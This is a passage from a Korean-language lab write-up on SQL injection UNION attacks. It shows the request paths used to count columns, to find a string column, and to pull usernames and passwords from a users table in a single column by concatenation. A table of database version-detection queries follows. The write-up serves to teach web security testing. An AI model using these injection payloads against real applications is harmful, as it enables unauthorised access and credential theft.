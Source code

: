 이 쿼리에 대한 결과는 위와 같이 모든 사용자명과 패스워드를 포함한다. 더 많은 문자열 연결 연산자는

<br>

## 🚩Lab: SQL injection UNION attack, retrieving multiple values in a single column

이전에 진행했던 랩과 마찬가지로 순서대로 SQL injection을 진행하면서 `administrator` 계정 정보를 찾아내자.

<br>

1. NULL 값의 수를 늘려가며 해당 테이블의 컬럼 개수를 조사한다. 아래 경로로 요청을 하면 서버 에러가 나타나지 않기에 컬럼의 수는 2개임을 알 수 있다.

    `/filter?category='+UNION+SELECT+NULL,NULL+--`

    <br>

2. 문자열 데이터를 갖고 있는 컬럼을 조사한다. 이를 위해서는 아래와 같이 2개의 경로로 요청해볼 수 있는데, 두 번째 경로에서 에러가 나타나지 않는 것으로 보아 두 번째 컬럼만 문자열 데이터를 갖고 있음을 알 수 있다.

    ```
    /filter?category='+UNION+SELECT+'a',NULL+--
    /filter?category='+UNION+SELECT+NULL,'a'+--
    ```

    <br>

3. 문제에서 `users` 테이블에서 `username`과 `password` 컬럼이 존재한다는 사실을 주어졌고 두 컬럼 정보를 두 번째 컬럼 하나에서 조회할 수 있도록 쿼리를 구성해야한다. 문자열 연결 연산자 `||`를 이용하고 두 문자열을 구분하기 위해 구분자를 `/`로 하여 다음과 같이 페이로드를 구성할 수 있다.

    `'+UNION+SELECT+NULL,username+||+'/'+||+password+FROM+users+--`

    <br>

![image](https://github.com/1unaram/1unaram.github.io/assets/37824335/f47971ca-7894-427d-ba99-59d4462bf7b4)

이제 모든 계정 정보를 위와 같이 확인할 수 있고, `administrator` 계정으로 로그인하면 문제를 해결할 수 있다.

<br><br>

# #Examining the database in SQL injection attacks

- 데이터베이스 소프트웨어의 타입과 버전
- 데이터베이스가 포함하고 있는 테이블과 컬럼

SQL injection 취약점을 익스플로잇하기 위해서는 위의 정보를 포함한 데이터베이스에 대한 정보를 찾는 것이 필수적이다.

<br>

## Querying the database type and version

제공되는 특정 쿼리를 삽입함으로써 데이터베이스의 타입과 버전을 알아낼 수 있다.

<br>

|Database type|Query|
|--|--|
|Microsoft, MySQL|`SELECT @@version`|
|Oracle|`SELECT * FROM v$version`|
|PostgreSQL|`SELECT version()`|
